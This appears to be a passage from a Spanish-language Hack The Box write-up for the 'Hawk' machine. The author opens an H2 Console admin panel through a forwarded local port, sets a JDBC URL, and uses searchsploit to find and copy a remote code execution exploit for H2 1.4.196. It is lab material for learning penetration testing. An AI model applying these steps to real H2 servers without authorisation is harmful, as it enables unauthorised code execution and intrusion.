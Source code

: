 Y ahora si ingresamos a la siguiente dirección URL, podemos ver el panel de administración de **H2 Console**:

- http://127.0.0.1:4646/

![""](/assets/images/htb-hawk/hawk_lpf.jpg)

Dentro de este panel, modifcamos el siguiente valor y la damos en **Conectar**:
- URL JDBC: jdbc:h2:~/k4mishell

![[hawk_k4mishell.jpg]]

Vemos que se usa la versión `H2 1.4.196`, por lo que procedemos a buscar un posible exploit:

```bash
❯ searchsploit H2 1.4.196
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
H2 Database 1.4.196 - Remote Code Execution                                                    | java/webapps/45506.py
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Vemos un posible exploit a utilizar hecho en `python`, por lo que lo descargar y procedemos a ejecutarlo:

```bash
❯ searchsploit -m java/webapps/45506.py
  Exploit: H2 Database 1.4.196 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/45506
     Path: /usr/share/exploitdb/exploits/java/webapps/45506.py
File Type: Python script, UTF-8 Unicode text executable, with CRLF line terminators

Copied to: /home/k4miyo/Documentos/HTB/Hawk/exploits/45506.py


❯ mv 45506.py h2_console.py
❯ python3 h2_console.py
usage: h2_console.py [-h] -H 127.0.0.1:8082 [-d jdbc:h2:~/emptydb-N5s2o]
h2_console.py: error: the following arguments are required: -H/--host
```
